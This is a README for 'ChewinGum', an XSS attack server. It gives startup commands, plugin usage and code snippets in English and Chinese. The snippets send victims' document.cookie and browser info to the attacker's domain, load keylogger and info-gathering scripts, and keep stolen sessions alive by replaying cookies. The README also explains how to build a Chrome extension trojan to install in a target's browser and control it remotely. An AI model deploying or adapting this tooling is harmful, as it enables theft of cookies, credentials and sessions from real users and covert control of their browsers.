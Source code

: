 # ChewinGum [beta][0.299][1140510]

Name
----
***ChewinGum - individual XSS Server***

Startup
-------
    python ./config.py install [ salt filekeyPath | -h ]
    python ./chewingum.py [ host port debug | -h ]

Dependencies
------------
* [Bottle-0.12](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [Pure](http://purecss.io/)

  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* Gum.js            - [xss.js](http://zone.wooyun.org/content/2113)
* get_info.js       - [BeEF](http://beefproject.com/)
* wec_cssbug.html   - [CSS3事件的消息回调BUG](http://www.web-tinker.com/article/20339.html)
* get_networkip.js  - [Network IP Address via ipcalf.com](http://net.ipcalf.com/)
* tool_keylogger.js - [XSS keylogger](http://wiremask.eu/xss-keylogger/)

Helptext
--------

**1.Login**

采用filekey验证, 上传filekey或输入URL便可登录.

**2.Server**

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64ens(request.headers.get('Referer')),
    	'ctime':b64ens(ctime())
	}
	browserinfo = {
    	'cookie':b64ens(request.forms.cookie)
	}

**3.Server code keyword**

*ifstatus*  
对变量ifstatus赋值, 会触发对应status.  
如:

	ifstatus = 404

*returns*  
对变量returns赋值，会返回对其赋值的内容.  
如:

	returns = '<script>alert(1)</script>'

*gum.backinfo*  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。

    gum.backinfo = {};

**4.Project name and Object name**

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

**5.Plugins**

可以这样导入server扩展,

	with open('./static/serv/get_info.py') as files: exec files.read()

也可以这样

    from static.serv.email_remind import send_mail
    send_mail(gum_emailremind)

>    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/brows/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

**6.Set code**

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64ens(request.forms.infoname)

多次接收browser info可以像这样,

    info_cookie = b64ens(request.forms.cookie)
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = sessionid.get(referer)

>	不推荐使用多次接收，默认已关闭。

**7.Easy example**

使用基本探针:

server:

    with open('./static/serv/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/brows/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

**8.Console**

javascript文件在

    ./static/brows/onexsshell.js

>    尚在测试阶段。

**9.Browser trojan**

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

>    尚在测试阶段

**10.Plugins header specification**

    Author[Reference] - Date
        Name - Dependencies
                - Synopsis
            Example
                and
            Dependencies Plus

>   好吧我知道不会有人帮我写插件的...

Demo
----
![](http://quininer.github.io/image/xsshell_1.png)
![](http://quininer.github.io/image/xsshell_2.png)

Developers
----------
*   [quininer](mailto:quininer@live.com)([@quininers](https://twitter.com/quininers))
